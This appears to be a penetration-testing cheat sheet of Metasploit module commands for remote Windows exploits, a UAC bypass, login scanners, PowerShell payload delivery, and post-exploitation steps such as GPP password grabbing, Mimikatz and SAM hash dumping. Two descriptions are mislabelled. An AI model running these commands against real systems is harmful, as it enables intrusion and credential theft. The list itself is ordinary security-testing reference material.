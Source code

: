 ## Common Metasploit Modules

Top metasploit modules.

### Remote Windows Metasploit Modules (exploits)

| COMMAND                                                      | DESCRIPTION                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `use exploit/windows/smb/ms08_067_netapi`                    | MS08_067 Windows 2k, XP, 2003 Remote Exploit                 |
| `use exploit/windows/dcerpc/ms06_040_netapi`                 | MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit             |
| `use exploit/windows/smb/ms09_050_smb2_negotiate_func_index` | MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit |

### Local Windows Metasploit Modules (exploits)

| COMMAND                               | DESCRIPTION                                         |
| ------------------------------------- | --------------------------------------------------- |
| `use exploit/windows/local/bypassuac` | Bypass UAC on Windows 7 + Set target + arch, x86/64 |

### Auxilary Metasploit Modules

| COMMAND                                     | DESCRIPTION                            |
| ------------------------------------------- | -------------------------------------- |
| `use auxiliary/scanner/http/dir_scanner`    | Metasploit HTTP directory scanner      |
| `use auxiliary/scanner/http/jboss_vulnscan` | Metasploit JBOSS vulnerability scanner |
| `use auxiliary/scanner/mssql/mssql_login`   | Metasploit MSSQL Credential Scanner    |
| `use auxiliary/scanner/mysql/mysql_version` | Metasploit MSSQL Version Scanner       |
| `use auxiliary/scanner/oracle/oracle_login` | Metasploit Oracle Login Module         |

### Metasploit Powershell Modules

| COMMAND                                          | DESCRIPTION                                                  |
| ------------------------------------------------ | ------------------------------------------------------------ |
| `use exploit/multi/script/web_delivery`          | Metasploit powershell payload delivery module                |
| `post/windows/manage/powershell/exec_powershell` | Metasploit upload and run powershell script through a session |
| `use exploit/multi/http/jboss_maindeployer`      | Metasploit JBOSS deploy                                      |
| `use exploit/windows/mssql/mssql_payload`        | Metasploit MSSQL payload                                     |

### Post Exploit Windows Metasploit Modules

Windows Metasploit Modules for privilege escalation.

| COMMAND                                           | DESCRIPTION                                                  |
| ------------------------------------------------- | ------------------------------------------------------------ |
| `run post/windows/gather/win_privs`               | Metasploit show privileges of current user                   |
| `use post/windows/gather/credentials/gpp`         | Metasploit grab GPP saved passwords                          |
| `load mimikatz -> wdigest`                        | Metasplit load Mimikatz                                      |
| `run post/windows/gather/local_admin_search_enum` | Idenitfy other machines that the supplied domain user has administrative access to |
| `run post/windows/gather/smart_hashdump`          | Automated dumping of sam file, tries to esc privileges etc   |
